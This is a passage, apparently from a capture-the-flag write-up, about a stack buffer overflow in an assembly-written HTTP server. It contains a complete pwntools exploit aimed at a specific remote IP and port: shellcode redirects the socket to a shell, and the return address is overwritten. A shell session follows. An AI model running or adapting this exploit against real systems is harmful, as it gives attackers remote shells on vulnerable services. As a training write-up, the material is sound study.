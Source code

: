         mov rax, 0          ; sys_read
        mov rdi, [sockfd]   ; read from client
        lea rsi, [rbp-1000]   ; store in req_path
        mov rdx, 1024       ; read only 1 line (<=1 KB)
        syscall
    ...
        leave
        ret
    ```
3. Pwn:
    ```python
    from pwn import *

    r = remote("59.124.168.42", 8001)
    e = ELF('./server.out')

    # bss
    bss = e.bss()
    req_path = bss + 144 + 256
    sockfd = bss + 144 + 256 + 128 + 8 + 8

    # shellcode
    s = f"""
        mov rsi, 2
        mov rdi, [{sockfd}]
    dup2:
        mov rax, 33
        syscall
        dec rsi
        jns dup2
    """ + shellcraft.amd64.sh()

    # payload
    p = b"GET /" + asm(s, arch='amd64')
    p += (1000 - len(p) + 8) * b'p'  # padding
    p += p64(req_path + 2) # return address

    r.sendline(p)
    r.interactive()
    ```
4. After getting the shell, there was only a `/bin/sh` for you, but you were able to list and read files using built-in commands and wildcard:
    ```bash
    $ ls
    sh: 1: ls: not found
    
    $ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    